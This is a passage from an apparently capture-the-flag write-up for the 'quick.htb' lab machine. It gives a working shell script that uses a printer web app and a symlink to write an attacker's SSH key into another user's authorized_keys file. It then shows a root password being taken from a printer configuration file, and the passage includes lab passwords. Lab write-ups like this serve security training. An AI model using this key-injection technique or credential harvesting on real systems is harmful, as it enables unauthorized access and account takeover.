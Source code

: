 ```bash
#!/bin/sh

# Run this as Sam on quick.htb to add the ssh public key to srvadm's authorized_keys

sess=$(curl -v 'http://localhost:9001/index.php' -H "Host: printerv2.quick.htb" --data 'email=srvadm%40quick.htb&password=yl51pbx' 2>&1 | grep PHPSESSID | sed 's/.*PHPSESSID=//' | sed 's/;.*//')
filename=$(php -r "echo date('Y-m-d_H:i:s');")
ln -s /home/srvadm/.ssh/authorized_keys "/var/www/jobs/${filename}"
curl 'http://localhost/job.php' -H 'Host: printerv2.quick.htb' -H "Cookie: PHPSESSID=${sess}" --data 'title=Port+8081&desc=ssh%2Drsa%20AAAAB3NzaC1yc2EAAAADAQABAAABgQDIxJfGA7%2F0W9izQKEb87wTkKw3Ko83AIjcDw%2BScukapOKIYZ%2FN16ApuuC3TeFuSBrWtiIY1ZY7b35pnXsYg9zju6bb%2Fv3Qz9EBAdepxE9yjJY6yzylCUjm%2Fm%2B2vUKdnMYYMfwCmaL9EgJfXsvom6x1oZ%2BdIjykB57PyoX53P0hZ%2B1Irz3IY5xqc8einuP0X%2F50vuT42XnqRQSvCLAar2E6LPWfUc0l4GoN7lhM7l8eZ6v9Qn0Rj%2FpDLDIxf4UL4o3FdLSiV4is%2F4G1SHe5i0IUWtRmW%2BUR3h%2Bxi5Ujh7L7Xhxr99WacvIg6SydVRndBh2fC3zZKTobZDwPNR43R9MI8hSFclPo2t4kKgFn5ywd16qUDD2B%2BUtKUt%2Famotpgq8TVRVaTjICbVrJA1TEmEDO%2BNV1zo%2B6Ym5%2BHJEd8E%2Blg%2FkuhP2%2BLNJ7e39SaNDzc7coL%2F0ZCxQieu6tteVcNotUlUBGRhJo2T4vPjIGX4IydWkjcPg6WFFG%2FWUhANYMSnc%3D&submit=yup' & > /dev/null 2>&1
```

If everything went well we should be able to ssh into the `srvadm` user.

## Enum as srvadm and owning root

The usual enum isn't showing much, and we've already seen most of what's available from the other user account. Let's find stuff that `srvadm` has access to that `sam` might not

```shell
srvadm@quick:~$ find / -user srvadm 2>/dev/null | grep -v /proc | grep -v /sys
/home/srvadm
/home/srvadm/.cache
/home/srvadm/.cache/conf.d
/home/srvadm/.cache/conf.d/printers.conf
/home/srvadm/.cache/conf.d/cupsd.conf
/home/srvadm/.cache/logs
/home/srvadm/.cache/logs/debug.log
/home/srvadm/.cache/logs/error.log
/home/srvadm/.cache/logs/cups.log
/home/srvadm/.cache/packages
/home/srvadm/.cache/motd.legal-displayed
...
```

Looking in `/home/srvadm/.cache/conf.d/printers.conf` we find a line `DeviceURI https://srvadm%40quick.htb:%26ftQ4K3SGde8%3F@printerv3.quick.htb/printer`. The
password in this URL decodes to `&ftQ4K3SGde8?` which is the root password.
